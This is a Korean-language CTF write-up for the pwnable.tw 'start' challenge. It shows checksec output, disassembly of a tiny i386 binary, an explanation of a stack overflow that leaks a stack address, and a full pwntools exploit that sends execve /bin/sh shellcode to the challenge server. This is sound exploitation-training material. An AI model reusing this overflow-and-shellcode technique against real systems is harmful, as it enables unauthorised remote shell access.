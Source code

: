 ```yaml
---
title: "[pwnable.tw]start"
date: 2019-11-17
ctf: Pwnable.tw
layout: post
---
```


보호기법은 하나도 안 걸려있다.

```
[*] '/vagrant/ctfs/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

`_start` 에서 syscall로 write, read 호출한다. 

write는 esp에 있는 값을 20바이트 만큼 출력해준다. push 해준 값들인데 아마 `Let's start the CTF: ` 이거 출력해줄 것이다. 그리고 read는 64바이트만큼 입력받을 수 있다. 그리고 마지막에 esp 정리해주고 exit으로 리턴해준다. 

```assembly
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 60
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

여기서 리턴을 덮어서 원하는 주소로 갈 수 있다. 근데 ret할때 esp가 스택주소가 들어있는데 `0x08048087` 로 리턴해주면 stack 주소를 leak 할 수 있다. 그리고 `add esp, 0x14` 하고 ret하니까 쉘코드가 있는 주소로 덮으면 쉘코드 실행이 된다 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./start')
#p = process('./start')
p = remote('chall.pwnable.tw',10000)
gadget = 0x08048087 # mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80

payload = 'A'*0x14
payload += p32(gadget)
p.sendafter(':',payload)

stack = u32(p.recv(4))
log.info('stack : ' + hex(stack))

#raw_input()
payload2 = 'A'*0x14
payload2 += p32(stack + 0x14)
payload2 += '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
p.send(payload2)

p.interactive()
```

